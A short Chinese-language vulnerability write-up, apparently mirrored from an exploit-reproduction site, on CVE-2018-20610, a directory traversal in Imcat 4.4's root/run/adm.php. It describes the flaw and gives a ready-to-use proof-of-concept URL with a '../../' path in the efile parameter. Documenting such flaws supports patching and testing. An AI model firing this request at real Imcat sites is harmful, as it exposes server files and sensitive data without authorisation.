


# （CVE-2018-20610）Imcat 4.4 敏感信息泄露

> 原文：[http://book.iwonder.run/0day/Imcat/CVE-2018-20610.html](http://book.iwonder.run/0day/Imcat/CVE-2018-20610.html)

## 一、漏洞简介

imcat 是一套基于 PHP 的开源建站系统。 imcat 4.4 版本中的 root/run/adm.php 文件存在目录遍历漏洞。目前尚无此漏洞的相关信息，请随时关注 CNNVD 或厂商公告。

## 二、漏洞影响

imcat 4.4

## 三、复现过程

先在 D 盘创建 1.txt



```
http://www.0-sec.org/root/run/adm.php?admin-ediy&part=edit&dkey=runs&dsub=&efile=../../1.txt&dialog=1546054963116&lang=cn 
```



## 参考链接

> [https://github.com/AvaterXXX/CVEs/blob/master/imcat.md](https://github.com/AvaterXXX/CVEs/blob/master/imcat.md)

